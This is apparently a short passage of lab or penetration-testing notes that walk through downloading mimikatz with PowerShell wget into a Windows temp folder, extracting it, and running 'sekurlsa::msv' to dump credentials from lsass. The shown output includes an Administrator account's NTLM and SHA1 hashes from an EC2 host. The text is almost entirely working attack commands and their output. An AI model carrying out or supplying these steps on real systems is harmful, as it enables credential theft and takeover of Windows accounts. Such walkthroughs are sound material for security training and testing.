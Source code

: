 - download mimikatz to the windows vm

```powershell
C:\Windows\system32>powershell
powershell
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

PS C:\Windows\system32> wget "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip" -outfile "C:\windows\temp\mimikatz_trunk.zip"
wget "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip" -outfile "C:\windows\temp\mimikatz_trunk.zip"
```

- exract the mimikatz zip file

```powershell
PS C:\Windows\system32> cd C:\windows\temp\
cd C:\windows\temp\

PS C:\windows\temp> Expand-Archive mimikatz_trunk.zip -Force
Expand-Archive mimikatz_trunk.zip -Force

PS C:\windows\temp> cd mimikatz_trunk\x64
cd mimikatz_trunk\x64
```

- start mimikatz and dump credentials from windows `lsass.exe` process

```powershell
PS C:\windows\temp\mimikatz_trunk\x64> .\mimikatz.exe
.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::msv

Authentication Id : 0 ; 3255438 (00000000:0031ac8e)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : EC2AMAZ-5A4CSBH
Logon Server      : EC2AMAZ-5A4CSBH
Logon Time        : 6/3/2022 9:35:18 AM
SID               : S-1-5-21-2073652273-2496418537-3488842278-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : EC2AMAZ-5A4CSBH
         * NTLM     : 7facdc498ed1680c4fd1448319a8c04f
         * SHA1     : 24b8b6c9cbe3cd8818683ab9cd0d3de14fc5c40b
.......
```
